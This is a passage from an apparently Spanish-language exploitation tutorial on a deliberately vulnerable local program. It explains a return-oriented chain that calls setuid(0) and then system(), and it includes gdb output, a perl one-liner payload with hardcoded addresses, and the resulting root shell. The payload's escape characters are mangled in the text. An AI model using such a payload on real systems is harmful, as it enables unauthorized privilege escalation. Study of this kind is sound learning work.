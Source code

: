 — El último `ret` recogerá &setuid, quien reconoce como argumento el 0x00000000 dos posiciones más allá, ya que la función cree que ha sido llamada con un `call`.  
— setuid() finaliza y ejecuta un `ret` donde debería estar su `EIP(s)`, lo que recoge en EIP la dirección de un `leave;ret`, el `leave` primero moverá de EBP a ESP la dirección buf-4, para hacer posteriormente un `pop ebp` que recogerá basura en el EBP e incrementará el ESP en 4 bytes, apuntando al comienzo de buf. Finalmente la instrucción `ret` recogerá del comienzo de buf la dirección &system dando comienzo al ROP clásico.

Vamos a hallar la dirección de buf y a ejecutarlo.  

    [unset environment LINES y COLUMNS]
    Breakpoint 2, 0x08048456 in imprimir ()
    (gdb) x $esp
    0xffffd210: 0xffffd220

``$ /home/arget/vuln "`perl -e 'print "x50xc8xe3xf7" . "xc5x35xebxf7" . "xc8xecxf5xf7" . "A"x124 . "x1cxd2xffxff" . "x27x85x04x08"x5 . "x60x3dxebxf7" . "x6cx84x04x08"'`"  
[...]AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]  
# whoami  
root  
#``  
Explotado.  
Este programita nos está dando para rato. ¿De cuántas formas distintas se puede explotar un programa?  
Saludos.